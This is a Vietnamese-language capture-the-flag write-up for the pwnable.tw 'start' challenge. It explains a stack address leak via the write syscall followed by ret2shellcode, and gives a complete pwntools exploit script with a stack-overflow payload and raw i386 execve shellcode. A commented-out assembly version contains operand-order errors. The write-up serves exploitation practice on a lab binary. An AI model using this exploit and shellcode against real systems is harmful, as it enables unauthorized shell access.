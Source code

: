EXPLOIT 

cách đơn giản nhất ở đây có lẽ là dùng shellcode ```execve``` , tuy nhiên ta chưa biết địa chỉ chứa shellcode của ta? , ta sẽ dùng syscall write để leak nó trước xong rồi mới thực hiện ```ret2shellcode```


trước lệnh ret nó sẽ tăng esp lên cho ta , vậy ta sẽ overwrite ```RIP``` đến đoạn ``` mov     ecx, esp```  , khi có địa chỉ leak thì tính toán địa chỉ stack chứa shellcode và overwrite ```RIP``` bằng địa chỉ đó là xong

>cần chú ý 1 điều ở đây là ta chỉ có ```0x3c - 0x14 + 4 byte của địa chỉ chứa shellcode``` nên cần setup shellcode sao cho ít byte nhất có thể 
![image](/assets/images/Pwnable.tw/4.png)

script : 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./start',checksec=False)
context.arch = 'i386'
p = process()


#shellcode2 = asm('''
#                 xor eax,eax
#                 push eax
#                 push 0x68732f2f
#                 push 0x6e69622f
#                 mov esp,ebx
#                 mov eax,ecx
#                 mov eax,edx
#                 mov 0xb,al
#                 int 0x80
#                 xor eax,eax
#                 inc eax
#                 int 0x80
#                 ''')
shellcode =  b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = b'a'*20 + p32(0x08048087)
input()
p.sendafter(b"Let's start the CTF:",payload)
leak = u32(p.recv(4))
target = leak + 20
log.info(f'target: {hex(target)}')
input()
payload2 = b'a'*0x14 + p32(target) + shellcode
print(len(payload2))
p.send(payload2)

p.interactive()
```